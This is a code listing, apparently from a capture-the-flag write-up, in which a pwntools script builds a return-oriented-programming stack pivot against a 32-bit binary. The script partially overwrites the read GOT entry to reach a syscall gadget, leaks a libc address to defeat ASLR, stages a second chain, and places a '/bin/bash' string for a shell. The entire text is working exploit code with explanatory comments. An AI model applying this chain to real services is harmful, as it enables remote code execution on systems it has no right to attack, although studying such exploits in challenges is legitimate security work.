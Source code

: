 ```python
pivot_chain = ROP(exe)
# step 1 is to overwrite the last byte of the read pointer
# I used length to leave 4 in edx for a later write because read can receive fewer than len bytes
pivot_chain.read(0, exe.got['read'], 4)
# Step 2 is to write a pointer out of the GOT, allowing me to break ASLR and determine the version of libc on the server
# ebx/file descriptor can be set by pop ebx gadget but we need to be more inventive for other arguments
pivot_chain.raw(pivot_chain.ebx[0])
pivot_chain.raw(1)
# ecx is already the GOT entry of read because we read over the entry
# we lack any easy pointers to control ECX but we can increment it four times to switch to the next entry in the GOT
for i in range(4):
    pivot_chain.raw(INC_ECX_RET)
# to write with a syscall gadget we need eax == 4
# the only gadget I could find to do so is mov al, 4; or byte ptr [ecx], al; leave; ret; 
# ecx at this point is the GOT entry to strlen which we can comfortably clobber because it is no longer needed
pivot_chain.raw(MOV_AX_4)
# we then increment ECX again to leak __libc_start_main
for i in range(4):
    pivot_chain.raw(INC_ECX_RET)
# and lastly we call "read" which is actually a syscall gadget
pivot_chain.raw(exe.symbols['read'])

# to finish out this rop chain we need to set up for the next stage of this exploit
# we will need to construct another rop chain with our new knowledge of libc base
# 7 null words are garbage values which are consumed between read's syscall and ret
for i in range(7):
    pivot_chain.raw(0)
# these ret gadgets make the stack pointer far enough from the base that calling into the dynamic linker will not segfault
# i ran into issues with it segfaulting because it hit the base of bss
for i in range(100):
    pivot_chain.raw(RET)
# and lastly we use the plt stub to convince the dynamic linker into retrieving the original read pointer
# allowing us to read again and inject a second rop chain
# we're reading 11 * 4 bytes (size of the second pivot stack) into a location in the bss slightly after our previous rop chain ends
pivot_chain.call(0x8048396, [0, 0x0804b260, 11 * 4])
log.info("pivot chain created")
log.info(pivot_chain.dump())

pivot_payload += pivot_chain.chain()
pivot_payload += p32(pivoted_stack_1 + len(pivot_payload) + 4) + b"/bin/bash".ljust(16,b"\x00")

rop = ROP(exe)
rop.read(0, pivoted_stack_1, len(pivot_payload))
rop.raw(LEAVE_RET)
# we override the stored ebp with pivoted_stack_1 so this will copy ebp, esp and adjust the stack to the new location
# we previously read an arbitrarily large rop chain to that area
log.info("first chain created")
log.info(rop.dump())

r.send(payload + p32(pivoted_stack_1) + rop.chain())
time.sleep(1)
r.send(pivot_payload)
time.sleep(1)
r.send(p8(244))
time.sleep(1)
```